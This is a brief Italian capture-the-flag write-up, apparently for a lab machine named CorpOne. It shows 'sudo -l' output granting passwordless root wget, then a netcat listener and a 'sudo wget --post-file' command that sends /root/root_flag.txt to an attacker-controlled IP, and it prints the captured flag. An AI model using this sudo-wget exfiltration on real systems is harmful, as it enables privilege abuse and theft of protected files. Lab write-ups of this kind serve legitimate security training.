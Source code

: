 1) Faccio sudo  -l:
jessie@CorpOne:~/Documents$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget

2)Macchina Attaccante: **nc -lvnp 4444**

3) Macchina vulneerabile: **sudo /usr/bin/wget –post-file=/root/root_flag.txt** [**http://[TUNNEL_IP]:4444**](http://[tunnel_ip]:4444/)

4) rootflag: b1b968b37519ad1daa6408188649263